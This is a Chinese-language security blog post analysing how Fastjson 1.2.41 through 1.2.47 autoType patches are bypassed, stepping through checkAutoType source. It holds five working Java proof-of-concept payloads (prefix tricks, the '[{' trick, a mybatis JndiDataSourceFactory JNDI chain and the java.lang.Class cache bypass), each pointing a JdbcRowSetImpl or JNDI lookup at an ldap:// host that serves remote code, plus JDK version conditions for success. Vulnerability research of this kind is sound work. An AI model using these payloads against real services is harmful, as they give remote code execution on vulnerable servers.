---
title: "Java反序列化之Fastjson1.2.4x绕过"
date: 2026-02-28T13:30:28+08:00
summary: "Fastjson1.2.41-1.2.47补丁绕过"
url: "/posts/Java反序列化之Fastjson1.2.4x绕过/"
categories:
  - "javasec"
tags:
  - "javasec"
draft: false
---

把之前fastjson反序列化中的内容分出来了，方便以后根据版本去找到相应的文章POC

# FastJson >=1.2.25的修复

Fastjson从1.2.25开始对这个漏洞进行了修补，修复方式是添加了一个checkAutoType()函数使用黑白名单的方式来限制反序列化的类，但是在后面的版本中依旧存在的绕过的手段

# Fastjson1.2.25-1.2.47的补丁绕过

其实这里的话是分版本的，不同版本会针对不同补丁进行绕过，挨个来看一下

## 1.2.25 - 1.2.41 补丁绕过

把版本换成1.2.41

前面我们也说过Fastjson>= 1.2.25会禁用自动类型转换功能，也就是AutoTypeSupport的选项是默认关闭的



### 深入代码分析

根据报错的函数调用栈，跟进com.alibaba.fastjson.parser.ParserConfig#checkAutoType()方法

在该函数名所在行打上断点，跟进这个函数看看



此时`@type`字段的值被解析成typeName，继续走代码



可以看到此时会取autoTypeSupport的值进行判断是否支持自动类型转换，这里默认是false，所以会进入这个if语句，此时就会抛出报错

继续回溯，checkAutoType方法在`com.alibaba.fastjson.parser.DefaultJSONParser#parseObject()`中被调用



```java
public static String DEFAULT_TYPE_KEY = "@type";
if (key == JSON.DEFAULT_TYPE_KEY && !lexer.isEnabled(Feature.DisableSpecialKeyDetect)) {
    String typeName = lexer.scanSymbol(this.symbolTable, '"');
    Class<?> clazz = this.config.checkAutoType(typeName, (Class)null);
```

这里有一个DEFAULT_TYPE_KEY，值就是`@type`

我们看看1.2.24的该位置源码



看到了吧，1.2.24是在确定直接进行loadclass方法去加载类的，所以这个地方就是1.2.24漏洞的修复

回头仔细看一下checkAutoType方法的逻辑

```java
    public Class<?> checkAutoType(String typeName, Class<?> expectClass) {
        if (typeName == null) {
            return null;
        } else {
            String className = typeName.replace('$', '.');
            if (this.autoTypeSupport || expectClass != null) {
                for(int i = 0; i < this.acceptList.length; ++i) {
                    String accept = this.acceptList[i];
                    if (className.startsWith(accept)) {
                        return TypeUtils.loadClass(typeName, this.defaultClassLoader);
                    }
                }

                for(int i = 0; i < this.denyList.length; ++i) {
                    String deny = this.denyList[i];
                    if (className.startsWith(deny)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }
                }
            }

            Class<?> clazz = TypeUtils.getClassFromMapping(typeName);
            if (clazz == null) {
                clazz = this.deserializers.findClass(typeName);
            }

            if (clazz != null) {
                if (expectClass != null && !expectClass.isAssignableFrom(clazz)) {
                    throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                } else {
                    return clazz;
                }
            } else {
                if (!this.autoTypeSupport) {
                    for(int i = 0; i < this.denyList.length; ++i) {
                        String deny = this.denyList[i];
                        if (className.startsWith(deny)) {
                            throw new JSONException("autoType is not support. " + typeName);
                        }
                    }

                    for(int i = 0; i < this.acceptList.length; ++i) {
                        String accept = this.acceptList[i];
                        if (className.startsWith(accept)) {
                            clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
                            if (expectClass != null && expectClass.isAssignableFrom(clazz)) {
                                throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                            }

                            return clazz;
                        }
                    }
                }

                if (this.autoTypeSupport || expectClass != null) {
                    clazz = TypeUtils.loadClass(typeName, this.defaultClassLoader);
                }

                if (clazz != null) {
                    if (ClassLoader.class.isAssignableFrom(clazz) || DataSource.class.isAssignableFrom(clazz)) {
                        throw new JSONException("autoType is not support. " + typeName);
                    }

                    if (expectClass != null) {
                        if (expectClass.isAssignableFrom(clazz)) {
                            return clazz;
                        }

                        throw new JSONException("type not match. " + typeName + " -> " + expectClass.getName());
                    }
                }

                if (!this.autoTypeSupport) {
                    throw new JSONException("autoType is not support. " + typeName);
                } else {
                    return clazz;
                }
            }
        }
    }
```

挨个看一下



检测typeName的值是否为空后，这里分别有一个白名单过滤和一个黑名单过滤，白名单匹配成功就loadclass加载类，否则进行黑名单过滤，匹配成功则抛出报错



从Map缓存中查找获取类



如果未开启autoTypeSupport，则先进行黑名单过滤，再进行白名单过滤，如果白名单匹配成果就loadclass加载该类，否则报错未找到该类

### 补丁绕过思路

注意到这行代码


这里只需要autoTypeSupport开启就能直接loadclass加载类，我们跟进loadClass函数



看到如果我们的类名开头是`[`，也就是说此时类名是一个数组类型，那么就会递归调用loadClass方法去加载类，然后使用 Array.newInstance 方法创建一个该组件类型的数组实例，并返回该数组实例的类对象。

**如果类名是`L`开头并且以`;`结尾，此时会去掉开头和结尾并加载类**

- JdbcRowSetImpl利用链绕过

看到我们前面1.2.24讲到的JdbcRowSetImpl利用链

```java
import com.alibaba.fastjson.JSON;
 
public class Fastjson_Jdbc_LDAP {
    public static void main(String[] args) {
        String payload = "{" +
                "\"@type\":\"com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}
```

结合上面的发现可以改成（记得要开启AutoTypeSupport）

### POC1

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"Lcom.sun.rowset.JdbcRowSetImpl;\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}

```



并且这个是递归处理的，也就是说我们传入`[[;;`也是可以的

## 1.2.25 - 1.2.42 补丁绕过

从1.2.42版本开始，Fastjson把原本明文形式的黑名单改成了哈希过的黑名单，目的就是为了防止安全研究者对其进行研究，提高漏洞利用门槛，但是有人已在Github上跑出了大部分黑名单包类：https://github.com/LeadroyaL/fastjson-blacklist

把版本换成1.2.42再跑一下发现出现了`autoType is not support`的报错

### 补丁绕过思路

打断点进入checkAutoType函数中跑一下，狂点f8看看是哪里卡住了



正常来说这里因为我们加上了`L`和`;`的话哈希值应该是匹配不上的，但是这里匹配上了，说明我们的typeName被处理过了，往前看一下





在经过这个if语句后会把开头的`L`和`;`去掉，继续往下走



这个loadClass函数的内容是不变的，也就是说这里只是单纯的计算了开头和结尾的字符进行过滤，我们还是可以通过双重字符去绕过的

### POC2

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}

```



## 1.2.25 - 1.2.43 补丁绕过

把版本换成1.2.43再跑一下就出现一样的报错

继续来到刚刚的函数找到刚刚的if语句



多加了一层检测，通过检查字符串的**第一个字符**和**第二个字符**的组合进行检测，符合则会抛出报错

打断点跑一下看看



看来是这样的，那这时候我们该怎么绕过呢？

### 补丁绕过思路

还记得之前我们在分析loadClass函数的时候除了`L`和`;`的组合还有一个吗？



尝试写一下poc

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}

```

但是抛出报错了



```java
Exception in thread "main" com.alibaba.fastjson.JSONException: exepct '[', but ,, pos 42, json : {"@type":"[com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://124.223.25.186:1389/3omsng", "autoCommit":true}
```

意思是预期在42列的位置接收一个`[`但是是`,`，而42列刚好是第一个`,`逗号，在逗号前面加上一个`[`试一下

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}

```

又有新报错

```java
Exception in thread "main" com.alibaba.fastjson.JSONException: syntax error, expect {, actual string, pos 43, fastjson-version 1.2.43
```

意思是需要在43列的位置加上一个`{`，跟着加就行了

所以最后的poc是：

### POC3

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[{," +
                "\"dataSourceName\":\"ldap://127.0.0.1:9999/EXP\", " +
                "\"autoCommit\":true" +
                "}";
        JSON.parse(payload);
    }
}

```



因为`[{` 组合成功地将解析器推入了一个新状态，它认为自己正在解析一个对象数组，并且这个数组的类型就是刚刚检查通过的那个类。也就 可以正常loadClass 了

## 1.2.25 - 1.2.45 补丁绕过

看一下1.2.44版本下的检测



这里直接对第一个字符的哈希值进行了检测，然后直接抛出报错，所以目前来看还没有找到一个很好的绕过方式

换成1.2.45继续分析

### 利用条件

- **前提条件：需要目标服务端存在mybatis的jar包，且版本需为3.x.x系列的版本。**
- **autoTypeSupport属性为true才能使用**

我们在pom.xml中导入这个jar包

```xml
    <dependency>
      <groupId>org.mybatis</groupId>
      <artifactId>mybatis</artifactId>
      <version>3.4.6</version>
    </dependency>
```

然后poc是

### POC4

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String payload = "{" +
                "\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\"," +
                "\"properties\":{\"data_source\":\"ldap://127.0.0.1:9999/EXP\"}"+
                "}";
        JSON.parse(payload);
    }
}
```



这个其实是因为JndiDataSourceFactory这个类在1.2.45版本中并没有在哈希黑名单中，不过在1.2.46中就进入黑名单了

```java
version	 		hash				hex-hash						name
1.2.46	-8083514888460375884	0x8fd1960988bce8b4L		org.apache.ibatis.datasource
```



### 深入代码分析

继续往下调试分析`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`这条利用链的原理。

因为之前很早就说过，在触发fastjson反序列化的时候会调用setter方法，而在poc中设置了properties的值，我们看看这个类的setProperties方法



这里就是熟悉的JNDI注入漏洞了，即`InitialContext.lookup()`，并且这里的参数是由我们输入的properties属性的data_source值获取的，所以我们的poc就顺其自然了，没毛病！

## 1.2.25-1.2.47补丁绕过

这个是一个通杀的技巧，无需开启AutoTypeSupport都能成功利用，也是基于`checkAutoType()`函数绕过的

### 深入代码分析

还记得之前介绍过吗？在经过第一轮白名单+黑名单的过滤后会尝试从map中获取类


那我们是否可以尝试将我们需要加载的恶意类提前加载到map缓存中，这样在获取的时候就能获取到这个类呢？

跟进getClassFromMapping方法



可以发现mappings里面都是键值对

### POC5

这里我觉得先给poc会好一点

```java
package SerializeChains.FastjsonSer;

import com.alibaba.fastjson.JSON;

public class jdbcRowSetlmpl {
    public static void main(String[] args) {
        String payload = "{" +
                "\"a\":{\"@type\":\"java.lang.Class\",\"val\":\"com.sun.rowset.JdbcRowSetImpl\"" +
                "}," +
                "\"b\":{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"dap://127.0.0.1:9999/EXP\"," +
                "\"autoCommit\":\"true\"" +
                "}"+
                "}";
        JSON.parse(payload);
    }
}

```



### 调用链分析

在调用`DefaultJSONParser.parserObject()`函数时，会对JSON数据进行循环遍历解析

#### 第一次解析

在第一个键值对解析的时候，会进入checkAutoType函数，因为未开启AutoTypeSupport，那么就不会进入黑白名单的检测，由于@type执行java.lang.Class类，该类在接下来的`findClass()`函数中直接被找到，并在后面的if判断clazz不为空后直接返回clazz为`java.lang.Class`





接着往下走，来到MiscCodec#deserialze方法



会检查是否包含一个key为`val`的键值对，`parser.accept(JSONToken.COLON);`是检查JSON语法的代码，检查在键名`val`后面是否是一个冒号，随后会解析`val`键对应的值并赋值给objVal，`parser.accept(JSONToken.RBRACE);`也是一个语法检查，检查值的后面是否是一个花括号



检查objVal是否是字符串，并赋值给strVal



接着检查clazz是否是class类，是的话就调用`TypeUtils.loadClass()`，加载strVal所指向的类



成功加载该类后会将其缓存到Map缓存中，至此第一次解析就完成了

#### 第二次解析

这个就很简单了，当我们成功将这个类加载到Map缓存中时，此时调用`TypeUtils.getClassFromMapping()`能成功从缓存中获取到该类，进而在下面的判断clazz是否为空的if语句中直接return返回了，从而成功绕过`checkAutoType()`检测



但是如果目标服务端开启了AutoTypeSupport呢？经测试发现：

- 1.2.25-1.2.32版本：未开启AutoTypeSupport时能成功利用，开启AutoTypeSupport反而不能成功触发；
- 1.2.33-1.2.47版本：无论是否开启AutoTypeSupport，都能成功利用；

其他的版本限制：

基于RMI利用的JDK版本<=6u141、7u131、8u121，基于LDAP利用的JDK版本<=6u211、7u201、8u191



## 参考文章

[fastjson反序列化](https://infernity.top/2025/02/25/fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96/)

[Java安全学习——Fastjson反序列化漏洞](https://goodapple.top/archives/832)

[Java反序列化Fastjson篇03-Fastjson各版本绕过分析](https://drun1baby.top/2022/08/08/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96Fastjson%E7%AF%8703-Fastjson%E5%90%84%E7%89%88%E6%9C%AC%E7%BB%95%E8%BF%87%E5%88%86%E6%9E%90/)

[Fastjson各版本修补代码分析及绕过](https://blog.csdn.net/Destiny_one/article/details/142203895)
